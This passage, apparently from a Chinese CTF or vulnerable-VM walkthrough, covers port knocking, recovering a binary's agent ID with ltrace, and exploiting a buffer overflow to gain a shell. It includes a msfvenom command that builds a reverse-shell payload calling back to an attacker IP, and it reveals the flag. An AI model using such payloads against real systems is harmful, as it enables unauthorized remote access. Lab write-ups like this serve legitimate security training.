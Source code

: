 ```
git clone https://github.com/grongor/knock.git
```

安装完成

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57Hf9rghwvLfpCrGYWqflhTbictribh0PBklsaRuYDRwW0rqcic6uM5xRSQ/640?wx_fmt=png)

这边正常敲开了靶机的 7788 端口

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz579CYgvsTyhMyz56InHpkuJjAla2zfg1nNwypIYZv6vQe9f8cK5PurRw/640?wx_fmt=png)

现在不知道这 ID 是啥

这边需要二进制文件进行反向工程并获取代理程序 ID...（真难，我这里理解原理用了好多时间...）

前面我们运行 / usr/local/bin 目录下的 agent 会需要输入 ID，这边我们从 agent 文件下手

先把他传到 kali 本地

```
file_download /usr/local/bin/agent /root/agent
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57n1TzSJQBEMncicYRBEFsrXxdIpD7ZReteAp1zZZmlWFNJZ3tQgRj1Ww/640?wx_fmt=png)

这边查看到 agent 是 ELF32 位文件，将文件提权后执行，随意输入任意 ID，ID 不对退出后，使用 ltrace（跟踪进程调用库函数的情况）查看 agent 信息

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57gVJNq40icfgADSpVtahkJrZWYXE1cCdud7owyeicGicKoF8k4TCbNhA7g/640?wx_fmt=png)

随意输入 fgets(... 然后看到了 agent ID（这是有效的 ID，可以多次输入错误 ID 查看）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57mrk1uECWsBM6R37wHFvfHRG0D90CxNzejcY7vUdc7Tpiaic83yFJhcVA/640?wx_fmt=png)

这边 ID 正确，其中选项 2 和 3 可以让用户输入内容，

如此看来是要通过缓冲区溢出 7788 端口的 agent 程序，这边用二进制修改 exp

为该程序创建一个利用程序，首先我们为 msfvenom 有效负载创建一个 shellcode

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57c7b3u2QLq5biclR9DgXpVotul5y6cALib27RBCa2G5H0ZUdvmTP0xX2w/640?wx_fmt=png)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.182.149 LPORT=6666 -f python -b "\x00\x0a\x0b"
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz5764ouc6N17tbplu5Vyfg6XpprAcj7ria8NbpxvOKMZFsTw7ibObsIyICQ/640?wx_fmt=png)

利用二进制 py 修改 exp 进行提权

将文件写入本地 agentsploit.py 中

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57IicYHNIpaKaOrZCTDiamS8JTe7OiadjCULvkJicMBuXtqiackibMmmwgCY1g/640?wx_fmt=png)

```
flag6{R2gwc3RQcm90MGMwbHM=}
Gh0stProt0c0ls
```
